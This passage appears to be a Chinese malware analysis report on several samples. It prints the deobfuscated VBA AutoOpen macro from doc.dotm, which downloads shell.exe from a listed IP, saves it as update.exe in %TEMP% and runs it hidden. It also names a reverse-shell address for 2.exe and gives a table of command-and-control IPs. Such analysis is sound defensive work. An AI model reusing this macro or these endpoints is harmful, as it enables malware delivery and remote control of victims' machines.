

### adsprgprg.b64

通过分析，发现adsprgprg.b64样本实际为adsprgprg.exe的Base64编码样本。

Base64解码截图如下：



### doc.dotm

通过分析，梳理doc.dotm样本功能如下：

* 宏病毒样本；
* 从`http://178.128.40.89:8989/shell.exe`地址外联下载shell.exe程序，保存至%TEMP%目录下的update.exe路径；

样本宏代码截图如下：



转换Chr()代码，得到实际代码如下：

```
Sub AutoOpen()
    Dim v1 As String, v2 As String
    v1 = "http://178.128.40.89:8989/shell.exe"
    v2 = Environ("TEMP") & "\update.exe"
    
    Dim o1 As Object
    Set o1 = CreateObject("MSXML2.XMLHTTP")
    o1.Open "GET", v1, False
    o1.Send
    
    If o1.Status = 200 Then
        Dim o2 As Object
        Set o2 = CreateObject("ADODB.Stream")
        o2.Type = 1
        o2.Open
        o2.Write o1.responseBody
        o2.SaveToFile v2, 2
        o2.Close
        
        Shell v2, vbHide
    End If
End Sub
```

### 2.exe

通过分析，梳理2.exe样本功能如下：

* PDB信息：C:\Users\pickl\source
  epos
  ev2\x64\Release
  ev2.pdb
* 反弹shell，反弹shell地址：206.189.11.142:443

相关代码截图如下：



## 外联剖析

|  |  |  |
| --- | --- | --- |
| 外联IP | 归属地 | 备注 |
| 62.113.66.7:80 | 俄罗斯 莫斯科 | 外联下载 |
| 62.113.66.7:443 | 俄罗斯 莫斯科 | 反弹shell |
| 206.189.11.142:443 | 荷兰-北荷兰省-阿姆斯特丹 | 反弹shell |
| 62.113.66.137:80 | 俄罗斯-莫斯科 | 外联下载 |
| 62.113.66.137:443 | 俄罗斯-莫斯科 | 反弹shell |
| 89.22.173.54:443 | 俄罗斯-莫斯科 | 反弹shell |
| 37.18.27.27:443 | 俄罗斯-圣彼得堡 | 反弹shell |
| 143.244.140.9:443 | 印度-安得拉邦 | 反弹shell |
| 178.128.40.89:8989 | 英国-伦敦 | 外联下载 |
